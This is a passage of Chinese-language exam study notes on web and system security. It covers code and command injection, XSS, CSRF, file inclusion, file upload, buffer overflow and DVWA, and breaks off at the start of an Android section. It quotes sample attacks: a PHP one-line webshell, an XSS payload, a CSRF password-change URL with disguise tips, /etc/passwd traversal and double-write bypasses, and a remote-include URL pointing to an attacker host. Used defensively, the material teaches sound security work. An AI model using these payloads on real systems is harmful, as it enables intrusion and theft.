**② 攻击场景演示（一句话木马）（**2024 年**）**

| 项目 | 内容 |
| --- | --- |
| 代码示例 | **`<?php @eval($_GET['a']); ?>`** |
| 攻击利用 | 攻击者通过 URL 传入参数执行任意命令，如访问<br/>**`http://target.com/eval.php?a=phpinfo();`**<br/>即可**触发服务器执行 PHP 探针命令，获取系统敏感信息** |

**③ 触发的危险函数不同**

| 类型 | 触发函数 |
| --- | --- |
| **代码执行** | 通常由编程语言中**内置函数（动态解析、执行字符串）**引起。常见的触发函数包括 PHP 的 **`eval()`、`assert()`、`create_function()`** 等 |
| **命令注入** | 通常由编程语言中**系统调用函数（调用外部操作系统命令）**引起。常见的触发函数包括 PHP 的 **`system()`、`exec()`、`shell_exec()`、`passthru()`** 等 |

**④ 攻击方式与绕过技巧不同**

| 类型 | 绕过方式 |
| --- | --- |
| **代码执行** | 攻击者注入的是**合法的编程语法**，通常通过**闭合原有代码、利用语言特性或回调函数**等方式绕过限制 |
| **命令注入** | 攻击者通常利用**操作系统支持的命令连接符**（如 **`;`、`\|`、`&&`、`\|\|`**）或**空格替代符**（如 **`%09`、`${IFS}`**）来拼接或绕过过滤，实现**多条命令的连续执行** |

**📌 对比总表**

| 对比维度 | 代码执行 | 命令注入 |
| --- | --- | --- |
| 执行层级 | **编程语言（应用）层** | **操作系统（OS）层** |
| 执行对象 | **PHP/Python 等语言语句**（`phpinfo();`、`echo 123;`） | **Shell 系统命令**（`ls`、`cat`、`whoami`） |
| 典型危险函数 | `eval()`、`assert()`、`preg_replace()`、`call_user_func()`、`array_map()`、`create_function()`、动态函数调用 | `system()`、`exec()`、`shell_exec()`、`passthru()` |
| 绕过技巧 | 闭合原有代码、语言特性、回调函数 | 命令连接符 `;` `\|` `&&` `\|\|`；空格替代 `%09`、`${IFS}` |
| 典型样例 | `<?php @eval($_GET['a']); ?>` | `shell_exec('ping -c 4 ' . $target);` |

---

##### 📌 两者的联系

| 联系点 | 说明 |
| --- | --- |
| **本质相同：数据与代码边界混淆** | 两者的根本原因都是**应用程序过度信任了用户输入**，没有对输入数据进行**严格的验证、过滤或沙箱隔离**，导致**「数据」被解释器误当成了「代码」或「命令」来执行** |
| **代码执行可以导致命令执行** | 当代码执行漏洞被利用时，攻击者不仅可以在**应用层执行代码**，还可以通过**在注入的代码中调用系统命令函数**，**进一步实现命令执行** |
| **最终危害一致：远程代码执行（RCE）** | 无论是代码执行还是命令注入，一旦成功利用，通常都会导致**远程代码执行（Remote Code/Command Execution, RCE）**。攻击者都能**获取与应用程序同等权限的服务器控制权**，进而进行**文件读写、数据窃取、植入后门或发起内网横向渗透**等严重破坏 |



---

#### 03. XSS 跨站脚本攻击

##### 📌 概念

| 项目 | 要点 |
| --- | --- |
| 全称 | **XSS（Cross-Site Scripting，跨站脚本攻击）** |
| 地位 | **Web 应用程序中最常见的漏洞之一** |
| 成因 | 该漏洞出现的主要原因是**网站设计程序对用户输入内容过滤存在缺陷**，导致**网站页面篡改或脚本植入** |
| 过程 | 攻击者向 Web 应用中**嵌入提前设计好的恶意 JavaScript 脚本**，使得**其他用户在浏览该网站程序时浏览器自动执行了恶意的 JavaScript 脚本并受到攻击** |

##### 📌 分类

| 类型 | 说明 |
| --- | --- |
| **反射型 XSS** | **最常见的 XSS 攻击类型**。攻击者**构造恶意的 URL**，其中包含恶意脚本。当用户**点击带有恶意参数的 URL** 时，**服务器将恶意脚本作为响应的一部分返回给用户浏览器**，并在浏览器中执行 |
| **存储型 XSS** | 发生在**网站存储用户提交的数据，且未经过滤或转义的情况下直接在网页中显示**。攻击者提交包含恶意脚本的数据，然后**其他用户在访问包含该数据的页面时，恶意脚本将在他们的浏览器中执行** |
| **DOM 型 XSS** | 基于**文档对象模型（Document Object Model，DOM）**的一种 XSS 攻击。攻击者构造恶意 URL，其中包含恶意脚本。当用户点击包含恶意参数的 URL 时，**恶意脚本修改页面的 DOM 结构**，从而导致安全漏洞。它**不需要服务器解析响应的直接参与**，**触发 XSS 靠的是浏览器端的 DOM 解析**，所以**防范 DOM 型 XSS 是前端的责任** |



> [!IMPORTANT]
> 三型区分关键：
> - **反射型**：一次性、需诱导点击、**经服务器反射**。
> - **存储型**：**持久化**入库、危害最大（所有访问者中招）。
> - **DOM 型**：**不经服务器**，纯前端 DOM 解析，**防范责任在前端**。

##### 📌 源代码示例

```php
<?php
// 禁用浏览器的XSS保护，通常不推荐，会增加XSS攻击的风险，这里是做实验的原因
header ("X-XSS-Protection: 0");
// 检查GET请求中是否存在'name'参数，并且该参数不为NULL
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // 如果存在'name'参数，并且不为空，则直接将用户输入嵌入到HTML中并输出
    // 注意：这种做法不安全，因为它没有对用户输入进行任何清理或转义，可能导致XSS攻击
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>
```

> [!WARNING]
> 漏洞点：**`$_GET['name']` 未做任何清理或转义，直接 `echo` 输出到 HTML**。
> 攻击示例：`?name=<script>alert(1)</script>`。
> 另注意：`header("X-XSS-Protection: 0")` 是**主动关闭浏览器的 XSS 过滤器**，仅实验用，生产环境禁用。

---

#### 04. CSRF 跨站请求伪造

##### 📌 概念

| 项目 | 要点 |
| --- | --- |
| 全称 | **跨站请求伪造（Cross-Site Request Forgery，简称 CSRF）** |
| 定义 | 一种**利用用户已登录或已授权的状态**，**伪造合法用户发出请求给受信任的网点**的恶意行为 |
| 手法 | 攻击者通过**构造一个恶意的 Web 页面**，**诱导用户在不知情的情况下点击或提交某些操作**，从而实现**未授权访问和执行特权操作** |
| 难识别原因 | 由于这些请求是**从合法用户的身份发出的**，因此**很难被服务器识别为非法请求** |

**📌 与 XSS 的区别**

| 对比 | CSRF | XSS |
| --- | --- | --- |
| 权限 | **借助用户权限完成攻击，攻击者并没有拿到权限** | **直接盗取用户甚至管理员的权限进行攻击**，从而造成破坏 |

> [!IMPORTANT]
> 一句话区分：**CSRF 是"借你的手干活"（盗用身份发请求，拿不到 Cookie 内容）；XSS 是"偷你的钥匙"（盗取权限/Cookie）。**

##### 📌 CSRF 攻击的原理（五步）

| 步骤 | 说明 |
| --- | --- |
| ① | 用户通过浏览器访问**存在 CSRF 漏洞的信任网站 A**，输入**身份验证信息请求登录网站 A** |
| ② | **身份验证通过后，网站 A 产生 Cookie 信息并返回给浏览器**。此时，用户登录网站 A 成功 |
| ③ | 用户**未登出网站 A 前**，在**同一浏览器中访问攻击者构建的恶意的网站 B** |
| ④ | **网站 B 接收到用户请求后，返回一些攻击性代码，同时发出请求访问第三方网站 A** |
| ⑤ | 浏览器在接收到这些攻击代码后，根据网站 B 的请求，在**用户不知情的情况下携带 Cookie 信息，向网站 A 发出请求**。网站 A **并不知道该请求其实是由网站 B 发起的**，所以会根据用户浏览器的 Cookie 信息**以用户的权限处理该请求**，导致**来自网站 B 的恶意代码被执行** |



---

##### 📌 源代码示例（DVWA 修改密码）

```php
<?php
if( isset( $_GET[ 'Change' ] ) ) {
    // 如果接收到名为'Change'的GET 参数。只要URL带上Change=xxx就进入密码修改逻辑
    // Get input 获取输入，从GET参数获取两次密码
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];
    // 判断两个密码是否一致
    if( $pass_new == $pass_conf ) {
        // They do! 如果密码一致
        // 对新密码进行转义处理并计算MD5 值。
        // 这一长串三元表达式：兼容判断 mysqli 数据库连接对象是否有效，连接正常就执行转义；连接异常抛出错误
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) :
                    ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );      // 将转义后的密码计算md5哈希，存入数据库的是密文
        // 更新数据库
        $current_user = dvwaCurrentUser();   // 工具函数：读取当前登录用户（依靠session/cookie识别是谁）
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '". $current_user. "';";
        // 构造update更新SQL语句，修改users表对应用户的password字段
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>'. ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res =
                  mysqli_connect_error()) ? $___mysqli_res : false)). '</pre>' );
        // 执行SQL；执行失败则打印数据库错误信息
        // 给用户反馈：页面输出密码修改成功提示
        $html .= "<pre>Password Changed.</pre>";
    }
    else {
        // 如果密码不一致，输出密码不匹配的提示
        $html .= "<pre>Passwords did not match.</pre>";
    }
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);    // 三元表达式：关闭数据库连接
}
?>
```

**📌 漏洞利用**

> 代码中，**`password_new`、`password_conf` 两个参数没有做任何防护**，这样是相当危险的。如果攻击者对受害者的这套程序很熟悉，可以很轻易地**构造链接，只要一点击这个链接，就会触发 CSRF 攻击**。

这是 DVWA 修改密码的链接：

```
http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#
```

> 受害者只要**带登陆情况下点击这个链接（同一浏览器）**，密码就会被修改为 **`123`**。不过这链接**一看就是改密码的，基本不会有人点**，可以通过**修改为短链接、按钮或报错页面**的方式进行**伪装**。

##### 📌 核心漏洞点归纳

| 序号 | 漏洞点 | 说明 |
| --- | --- | --- |
| **1** | **依靠 Cookie/Session 识别用户，无 CSRF Token 令牌** | 代码只通过 **`dvwaCurrentUser()`** 拿当前登录用户，**完全信任浏览器提交过来的请求**。只要用户浏览器处于登录状态，访问构造好的恶意 URL，**浏览器自动带上 Cookie**，服务器就**认为是用户本人操作，直接修改密码**。**没有校验请求是否来自本页面、没有随机令牌校验** |
| **2** | **敏感操作使用 GET 请求** | 密码修改这种**高危动作使用 GET**，**参数暴露在 URL 中**。攻击者可以**直接拼接完整攻击 URL**；URL 还会**留存浏览器历史、代理日志、服务器日志**，存在**敏感信息泄露风险** |
| **3** | **没有二次身份校验** | 修改密码**不需要输入旧密码**。只要能发起请求，就可以**直接重置当前用户密码** |

> [!TIP]
> CSRF 防御三板斧（对应上面三个漏洞点）：
> 1. **CSRF Token**（随机令牌，校验请求来自本站）
> 2. **敏感操作改用 POST**（并校验 `Referer` / `Origin`）
> 3. **二次校验**（输入旧密码 / 短信 / 验证码）

---

#### 05. 文件包含

##### 📌 概念

| 项目 | 要点 |
| --- | --- |
| 名称 | **文件包含漏洞（File Inclusion Vulnerability）** |
| 地位 | Web 应用程序中**常见**的一种安全漏洞 |
| 成因 | 因**程序未对用户输入的文件路径做严格校验**，导致攻击者可**让服务器包含并执行指定文件** |
| 两种类型 | **本地文件包含（LFI）** 和 **远程文件包含（RFI）** |
| 触发函数 | 发生在应用程序使用 **`include()`、`require()`、`include_once()`、`require_once()`** 等函数来包含文件时，**并且没有正确地验证文件名** |

**🎚️ LFI 与 RFI 对比**

| 类型 | 说明 | 示例 |
| --- | --- | --- |
| **本地文件包含（LFI）** | 当应用程序**允许用户控制包含文件的路径**时，攻击者可以尝试**包含服务器上的敏感文件**，如**配置文件、源代码文件**等 | 代码：`include $_GET['file'];` <br/>URL：**`http://example.com/?file=../../../../etc/passwd`** |
| **远程文件包含（RFI）** | 如果服务器上的 **`allow_url_include`** 配置选项**被设置为 `On`**，攻击者可以**远程包含任何可通过 URL 访问的文件** | 代码：`include $_GET['file'];` <br/>URL：**`http://example.com/app.php?file=http://attacker.com/malicious.php`** |



---

##### 📌 代码示例

**❌ 漏洞版本（黑名单过滤，可双写绕过）**

```php
<?php
// 获取用户想要显示的页面名称，未做任何过滤验证
$file = $_GET['page'];        // 攻击者可构造恶意路径，如 ?page=../../etc/passwd
?>
<?php
// Input validation（输入验证，黑名单过滤）
$file = str_replace( array( "http://", "https://" ), "", $file );
// 将字符串中的 http:// 和 https:// 替换为空字符串，尝试阻断远程文件包含 RFI 攻击
$file = str_replace( array( "../", "..\\" ), "", $file );
// 将字符串中的路径穿越符号 ../（Linux）、..\\（Windows）替换为空字符串，
// 尝试防御本地文件包含路径穿越
?>
```

> [!WARNING]
> **仅做简单字符串删除，可以双写绕过**。
> 示例：**`....//etc/passwd`**，过滤删除一组 **`../`**，剩余 **`../etc/passwd`** 实现路径跳转。

**✅ 改进版本（白名单过滤）**

```php
<?php
// 安全地获取页面名称，假设我们有一个数组包含所有允许的页面
$allowed_pages = ['home', 'about', 'contact'];
// 检查用户请求的页面是否在允许的页面列表中（白名单过滤）
if (in_array($_GET['page'], $allowed_pages)) {
    // 如果是，则安全地包含该页面
    include($_GET['page'] . '.php');
} else {
    // 如果不是，则显示错误消息或默认页面
    echo "Page not found!";
}
?>
```

> [!IMPORTANT]
> **黑名单（`str_replace` 删除 `../`）可被双写绕过 → 必须改用白名单（`in_array` 校验）**。
> 这是本节的核心考点：**黑名单过滤不安全，白名单才是正解**。

---

#### 06. 文件上传

##### 📌 概念

| 项目 | 要点 |
| --- | --- |
| 出现位置 | 文件上传漏洞往往出现在 **Web 应用的上传功能**中 |
| 成因 | 若**过滤不严**，攻击者可**上传图片木马、病毒等恶意文件** |
| 后果 | **服务器执行后即被控制**；虽因**过滤机制成熟**近年**出现频率降低**，但**仍是高危风险点** |
| 危害 | 可直接**向服务器植入恶意代码**，引发**网页篡改、网站挂马、服务器远程控制、植入后门**等严重后果，甚至导致**整个服务器权限沦陷，数据泄露与业务瘫痪** |
| WebShell | 实现**简易 WebShell**，允许任何人通过**网页输入框向服务器发送指令，并直接在服务器上执行这些系统命令** |

```mermaid
flowchart LR
    A["上传功能过滤不严"] --> B["上传图片木马/恶意文件"]
    B --> C["服务器执行"]
    C --> D["网页篡改 / 网站挂马"]
    C --> E["服务器远程控制 / 植入后门"]
    C --> F["权限沦陷 · 数据泄露 · 业务瘫痪"]
```

---

##### 📌 代码示例

**❌ 漏洞版本（无任何验证，直接移动文件）**

```php
<?php
// 检查用户是否点击了上传按钮
if( isset( $_POST[ 'Upload' ] ) ) {
    // 定义文件上传目录（存在安全风险：目录路径可能被恶意利用）
    $target_path = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
    // 尝试将上传的文件移动到目标路径
    // 注意：直接移动文件而不进行验证可能会导致文件上传漏洞
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // 如果文件移动失败，输出错误信息
        $html .= '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // 如果文件移动成功，输出成功信息
        $html .= "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
?>
```

**✅ 改进版本（文件名校验 + MIME 白名单 + 后缀白名单）**

```php
<?php
if( isset( $_POST[ 'Upload' ] ) ) {
    // 定义上传文件的目标路径
    $target_path = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
    // 验证文件名
    $file_name = basename( $_FILES[ 'uploaded' ][ 'name' ] );
    if (preg_match('/[\x00-\x1F\x7F-\x9F]/', $file_name)) {
        // 文件名包含不可打印字符，禁止上传
        $html .= '<pre>File name contains invalid characters.</pre>';
        return;
    }
    // 验证文件类型（MIME白名单+后缀白名单）
    $allowed_mime_types = ['image/jpeg', 'image/png', 'image/gif'];
    $allowed_extensions = ['jpg', 'png', 'gif'];  //只允许三种格式的图片文件上传
    $mime_type = $_FILES['uploaded']['type'];
    $extension = strtolower(pathinfo($file_name, PATHINFO_EXTENSION));
    // 提取文件后缀，全部转为小写，规避大写后缀绕过
    if (!in_array($mime_type, $allowed_mime_types)) {
        // 文件类型不允许
        $html .= '<pre>File type not allowed.</pre>';
        return;
    }
    if (!in_array($extension, $allowed_extensions)) {
        // 文件扩展名不允许
        $html .= '<pre>File extension not allowed.</pre>';
        return;
    }
    // 尝试将上传的文件移动到目标路径
    if( !move_uploaded_file( $_FILES 。。。
```

> [!WARNING]
> **原文在 Page 895 末尾处代码被截断**（`if( !move_uploaded_file( $_FILES。。。`），后续代码在原文中未提供。完整逻辑应为：通过校验后调用 `move_uploaded_file()` 移动文件并提示成功。详见文末「⚠️ 疑点」。

**📌 改进版本防护点归纳**

| 防护点 | 实现 |
| --- | --- |
| **文件名不可打印字符过滤** | `preg_match('/[\x00-\x1F\x7F-\x9F]/', $file_name)` 命中则拒绝上传（防 **`%00` 截断**等控制字符） |
| **MIME 白名单** | `$allowed_mime_types = ['image/jpeg', 'image/png', 'image/gif']` |
| **后缀白名单** | `$allowed_extensions = ['jpg', 'png', 'gif']` |
| **后缀统一小写** | `strtolower(pathinfo($file_name, PATHINFO_EXTENSION))`，**规避大写后缀绕过**（如 `.PHP`、`.PhP`） |

> [!TIP]
> 文件上传防护要点：**白名单校验（MIME + 后缀）+ 后缀统一小写 + 文件名过滤控制字符 + 重命名存储 + 存储目录不赋予执行权限**。

---

#### 07. 缓冲区溢出

##### 📌 概念

| 项目 | 要点 |
| --- | --- |
| 定义 | **缓冲区溢出**：一种系统攻击手段，通过**往程序的缓冲区写超出其长度的内容**，造成**缓冲区溢出**，从而**破坏程序的堆栈**，使程序**转而执行其他指令**，以达到攻击的目的 |

##### 📌 堆栈（Stack）

| 项目 | 要点 |
| --- | --- |
| 定义 | **堆栈（Stack）是一种抽象数据类型（ADT）**；堆栈通常由一系列的元素组成，每个元素都包含一个**值**和一个**指向下一个元素的指针** |
| 添加/移除规则 | 当一个元素被添加到堆栈中时，它被放在**栈顶**；而当元素从堆栈中移除时，则**总是移除栈顶的元素** |

**📌 堆栈三大特性**

| 特性 | 说明 |
| --- | --- |
| **后进先出（LIFO）** | 这是堆栈**最基本的特性**，意味着**最后被添加的元素（后进）将是最先被移除的（先出）** |
| **动态大小** | 堆栈的大小**可以根据需要动态增长或缩小**，但**通常有最大大小的限制** |
| **两种基本操作** | 堆栈**有且只有两种基本操作**，即**入栈（Push）** 和 **出栈（Pop）** |

**📌 两种基本操作**

| 操作 | 说明 |
| --- | --- |
| **入栈（Push）** | 将一个新的元素**添加到堆栈的顶部** |
| **出栈（Pop）** | **从堆栈的顶部移除**一个元素 |

```mermaid
flowchart TD
    A["堆栈 Stack<br/>抽象数据类型 ADT"] --> B["后进先出 LIFO"]
    A --> C["动态大小<br/>通常有最大限制"]
    A --> D["两种基本操作"]
    D --> E["Push 入栈<br/>添加到栈顶"]
    D --> F["Pop 出栈<br/>从栈顶移除"]
```

> [!TIP]
> 记忆：**栈 = LIFO（后进先出）**，只有 **Push / Pop** 两个操作。

---

##### 📌 代码示例

> 攻击者可用**任意数据覆盖堆栈中变量的内容**。安全漏洞的一个经典例子是**基于口令的认证**。首先从本地数据库中读取口令并存储在本地变量中；然后用户输入口令，程序比较这两个字符串。

**关键代码**

```c
[...]
char origPassword[12] = "Secret\0";
// 定义原始密码缓冲区，长度12字节，初始化为 Secret\0，（实际占用7字节，含结束符）
char userPassword[12];
// 定义用户输入密码的缓冲区，长度12字节
[..]
gets(userPassword);
// 读取用户输入的口令【危险】
// gets 函数不检查输入长度，若用户输入超过11字节（不含结束符），会导致缓冲区溢出
/
[..]
if(strncmp(origPassword, userPassword, 12) != 0)    // 比较两个密码，最多比较12字节
{
    printf("Password doesn't match!\n");
    exit(-1);
}
[...]
// 口令认证通过时允许用户访问
[..]
```

**📌 溢出过程说明**

| 项目 | 要点 |
| --- | --- |
| 缓冲区大小 | `origPassword[12]`、`userPassword[12]`，均 **12 字节** |
| 危险函数 | **`gets()`** —— **不检查输入长度**，用户输入**超过 11 字节**（不含结束符）即溢出 |
| 溢出效果 | 现在用户的输入**超过 12 个字符（32 位对准）**就会**覆盖数组 `origPassword[]` 的内容** |
| 攻击结果 | 因此如果用户输入是 **`opensesame!!opensesame!!`**，`userPassword[]` 和 `origPassword[]` 的内容就是同一个字符串 **`opensesame!!`**，从而**比较结果为二者相等**（认证被绕过） |

```mermaid
flowchart LR
    A["gets(userPassword)<br/>不检查长度"] --> B["输入超过 12 字符<br/>32 位对准"]
    B --> C["溢出覆盖相邻的<br/>origPassword[]"]
    C --> D["两缓冲区内容相同<br/>opensesame!!"]
    D --> E["strncmp 比较相等<br/>绕过口令认证"]
```

> [!IMPORTANT]
> 本节两个必背点：
> 1. **危险函数 `gets()` 不检查输入长度** → 应改用 `fgets()` 等带长度限制的函数。
> 2. **溢出覆盖相邻变量** → 使 `origPassword` 与 `userPassword` 内容一致，`strncmp` 判定相等，**绕过认证**。

---

#### 📦 DVWA

| 项目 | 要点 |
| --- | --- |
| 技术栈 | **基于 PHP / MySQL 开发的开源 Web 漏洞靶场** |
| 定位 | **专为安全学习打造** |
| 性质 | 它**并非安全应用**，而是**故意植入 SQL 注入、XSS、文件包含等常见漏洞的实战平台** |
| 价值 | 为学习者提供**合法、受控的攻防演练环境** |

```mermaid
mindmap
  root((DVWA))
    技术栈
      PHP
      MySQL
    内置漏洞
      SQL 注入
      XSS
      文件包含
      CSRF
      文件上传
      命令注入
    定位
      合法受控靶场
      非安全应用
```

> [!TIP]
> 本节出现的多次代码示例均来自 **DVWA**（如 CSRF 改密码、文件上传、命令注入 ping）。真题案例年份：**SQL 注入 2021、命令注入 2023/2025、一句话木马 2024**。

---

### 第三讲 · 安卓系统安全

> 讲师：至强老师　QQ：2976033　交流Q群：297744872　公众号：至立软考　TB店：至立学院

#### 📖 本讲目录

| 序号 | 主题 |
| --- | --- |
| 1 | Android 系统架构 |
| 2 | Android 基本组件 |
| 3 | Android 权限机制 |
| 4 | 应用程序策略文件 |
| 5 | 目录、最小权限 |

```mermaid
flowchart LR
    A["安卓系统安全"] --> B1["01 系统架构<br/>四层"]
    A --> B2["02 基本组件<br/>四大组件 + Intent"]
    A --> B3["03 权限机制<br/>授权模型 / 保护级别"]
    A --> B4["04 应用程序策略文件<br/>AndroidManifest.xml"]
    A --> B5["05 目录与最小权限<br/>APK 结构 / 存储 / GB-T 41391"]
```

---

#### 01. Android 系统架构

##### 📌 概述

| 项目 | 要点 |
| --- | --- |
| **Android 系统背景** | Android 系统由 **Google 主导开发**，**基于 Linux 内核**打造的**开源移动操作系统**，凭借**开放生态与广泛适配性**，成为**全球市场份额领先的移动端平台**，支撑**智能手机、平板、智能穿戴**等多类设备运行 |
| **应用权限声明要求** | 应用需在**清单文件（`AndroidManifest.xml`）**中，**完整声明运行所需的所有权限**（如**存储、相机、位置**等），**未声明权限的功能将无法正常调用**，这是**系统权限管控的基础前提** |
| **用户安装审查节点** | 用户安装应用时，系统会**弹窗展示清单文件中声明的权限列表**，用户需**自主选择是否授予**，这一环节是用户把控应用权限的**第一道关键关卡** |
| **权限评估与开发责任** | 用户审查时需**结合应用用途判断权限必要性**，开发者也需遵循**最小权限原则**设计应用，**仅申请功能必需的权限**，共同保障权限使用的**合理性与安全性** |

##### 📌 四层架构

| 层次 | 英文 | 说明 |
| --- | --- | --- |
| **Linux 内核层** | **LINUX KERNEL** | Android 的**核心系统服务依赖于 Linux 2.6 内核**，如**安全性、内存管理、进程管理、网络协议栈和驱动模型**。Linux 内核也同时作为**硬件和软件栈之间的抽象层**，**隐藏了具体硬件细节，为上层提供统一的服务接口** |
| **系统运行库层** | **LIBRARIES** | Android 定义了一套 **C/C++ 开发库**供 Android 平台的其他组件使用。包括**图形渲染、数据库、多媒体处理、Web 浏览**等核心功能库 |
| **应用程序框架** | **APPLICATION FRAMEWORK** | 提供**标准化 API 服务**，开发者可**复用系统级框架接口**，依托 **Activity、Service、ContentProvider、BroadcastReceiver** 四大组件开发应用。包含**活动管理器、包管理器**等系统服务，依靠**应用程序签名机制做应用身份校验**，**管控组件与跨程序数据访问** |
| **应用程序** | **APPLICATIONS** | 包含**系统核心应用与第三方应用**，例如**短信、日历、地图、网页浏览器**等。应用基于下层的应用程序框架开发，开发语言可使用 **Java、Kotlin** 等；本层依靠**权限声明机制**，完成应用所需权限的**定义与申请** |

```mermaid
flowchart TD
